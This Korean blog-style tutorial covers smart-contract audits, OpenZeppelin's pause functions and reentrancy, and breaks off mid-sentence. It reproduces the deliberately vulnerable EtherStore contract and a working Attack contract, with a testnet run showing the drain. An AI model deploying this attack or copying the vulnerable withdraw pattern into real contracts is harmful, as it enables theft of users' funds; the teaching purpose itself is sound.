 # 컨트렉트 보안과 Audit(보안감사)
컨트렉트의 경우 실제 서비스에 런칭하기 전에 보안 전문 업체에게 오딧(보안감사)를 받게 된다.
보안감사의 경우에는 컨트렉트의 취약점을 분석한 후에 컨트렉트의 안정성에 문제가 없는지 여부를 검토하는 작업이다.
보안감사의 경우에는 취약한 정도에 따라서 레벨을 나누어서 응답을 하며
심각한 보안 사항의 경우는 거의 해결하는 편이지만 권고사항이나 가벼운 사항 중
중앙화 이슈와 같은 부분은 그냥 수정 없이 서비스를 오픈하는 편이기도 하다.

실무에서 서비스를 런칭할 때 주로 보안감사를 받는 기간을 염두해 두어야 하기 때문에 오딧 기간만큼 시간을 더 산정해야 한다.

주로 1~2주 정도의 기간이 보안감사에 걸리며 2주이상 걸리는 경우도 많다.
보안 감사를 받을 경우에는 해당 내용에 따라서 컨트렉트를 수정하고 다시 감사를 받아서 문제점이 해결되면 그때 코드를 다시 런칭한다.

다만 여기서 문제는 컨트렉트의 테스트를 보안감사업체가 해주는 것이 아니며 보안적인 취약점만 체크해주기 때문에 컨트렉트의 테스트는 직접 테스트 코드를 짜서 해야 한다.

보안감사는 컨트렉트 코드들이 정상 작동한다는 가정 하에 취약점을 분석해주는 것이며 따로 테스트 코드를 짜주는 과정도 있지 않기 때문에 정말 참고사항으로서만 두어야 하며 보안 감사를 받더라도 취약점이 발견되는 경우가 많기 때문에 테스트 코드를 소홀히 해서는 안된다.

# Openzepplin Security
https://github.com/OpenZeppelin/openzeppelin-contracts/tree/master/contracts/security

1.Pause & Unpause

컨트렉트 자체를 비활성화 시키고 활성화 시키는 부분

아래 함수들을 상속받은 pause와 unpause를 자체적으로 구현하여 활용한다.
```
    /**
     * @dev Triggers stopped state.
     *
     * Requirements:
     *
     * - The contract must not be paused.
     */
    function _pause() internal virtual whenNotPaused {
        _paused = true;
        emit Paused(_msgSender());
    }

    /**
     * @dev Returns to normal state.
     *
     * Requirements:
     *
     * - The contract must be paused.
     */
    function _unpause() internal virtual whenPaused {
        _paused = false;
        emit Unpaused(_msgSender());
    }
```

함수를 실행시키면 bool 값이 바뀌게 되고 bool값에 변동이 있을 시에 비활성화/ 활성화가 바뀌는 구조이다.
문제가 생길 경우 일시적으로 멈추도록 만드는 함수로 보안이 중요한 컨트렉트 및 함수에 넣게 되는데
최초 상호작용하는 하나의 함수에만 넣게되면 하위로 호출되는 함수에는 굳이 넣을 필요는 없다.

2. Re-enterancy

함수의 최종 결과가 리턴되기 전에 다시 한번 호출을 하는 부분으로서
외부 호출이 일어나는 경우 발생이 가능하다.

아래 소스 코드를 통해서 reEntrancyTest는 openzepplin의 reentrant guard를 적용하지 않은 부분이며
reEntracyTest2는 openzepplin의 reentrant guard를 적용한 부분이다.

해당 테스트를 통해서 리앤터런시 공격이 성공한것과 실패한 것을 볼 수 있는데

Attack 컨트렉트를 보면 deposit을 하자마자 바로 wihdraw를 하는 것을 볼 수 있으며
withdraw를 실행할때 지갑 주소로 이더를 주고 잔고 전송을 하게 되는데 이더를 주는 과정에서
fallback이 호출되게 되면 여기서 withdraw를 한번 더 실행한다.

따라서 1이더의 잔고까지 남았을 경우까지 fallback에서 withdraw가 진행되게 되므로 공격이 가능해지는 샘이다.

Source : https://solidity-by-example.org/hacks/re-entrancy/

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

/*
EtherStore is a contract where you can deposit and withdraw ETH.
This contract is vulnerable to re-entrancy attack.
Let's see why.

1. Deploy EtherStore
2. Deposit 1 Ether each from Account 1 (Alice) and Account 2 (Bob) into EtherStore
3. Deploy Attack with address of EtherStore
4. Call Attack.attack sending 1 ether (using Account 3 (Eve)).
   You will get 3 Ethers back (2 Ether stolen from Alice and Bob,
   plus 1 Ether sent from this contract).

What happened?
Attack was able to call EtherStore.withdraw multiple times before
EtherStore.withdraw finished executing.

Here is how the functions were called
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
*/

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

테스트
```
npx hardhat test ./test/reEntrancyTest.ts
```

```
npx hardhat test ./test/reEntrancyTest2.ts
```

2개의 테스트 결과를 보면 


etherStore balance : etherStore BigNumber { value: "0" }
etherStore balance : etherStore BigNumber { value: "2000000000000000000" }

가드를 넣은 것만 정상작동하는 것을 볼 수가 있습니다.

이를 클레이튼 체인에 직접 해보겠습니다.

트랜잭션 영수증
https://baobab.scope.klaytn.com/tx/0x94691fa4f8e79199cce142ec98680dfe52a7be68770faf03790fbd1f41b8069c?tabId=internalTx

3Klay가 입금된 Attack 컨트렉트
https://baobab.scope.klaytn.com/account/0x19363fb72444525c2ddff3b016675f795ac656e5?tabId=txList


실제로 하실 때는 먼저 프라이빗 키를 각각 가져와야 합니다.
```
    klaytn: {
      url: process.env.RPC_URL_KLAYTN,
      accounts: [process.env.PRIVATE_KEY!, process.env.TEST_PRIVATE_KEY!, process.env.TEST_PRIVATE_KEY2!]
    }
```
결과
```
hyunkicho@Hyunkiui-MacBookPro tutorial_hardhat % npx hardhat run scripts/deposit.ts --network klaytn
etherStore balance :  BigNumber { value: "2000000000000000000" }
before sending1 eth :  BigNumber { value: "0" }
before sending1 eth attack:  BigNumber { value: "0" }
before sending1 eth eve :  BigNumber { value: "99999475000000000000" }
etherStore balance etherStore:  BigNumber { value: "2000000000000000000" }
after sending1 eth :  BigNumber { value: "0" }
after sending1 eth : attack  BigNumber { value: "0" }
after sending1 eth : eve  BigNumber { value: "99999475000000000000" }
```

attack 컨트렉트에 쌓이 이더리움을 한번 확인을 해보면 

```
hyunkicho@Hyunkiui-MacBookPro tutorial_hardhat % npx hardhat run scripts/getBalance.ts --network klaytn
0x19363fb72444525c2ddff3b016675f795ac656e5
0x3F8bE5375B82390d09E3fF60835eafb162bfeDcc
getBalance from attack contract
Balance of 0x3F8bE5375B82390d09E3fF60835eafb162bfeDcc is 3000000000000000000
```

3이더가 들어온 것을 확인할 수 있습니다.

그러나 리엔터런시 가드인 경우에는


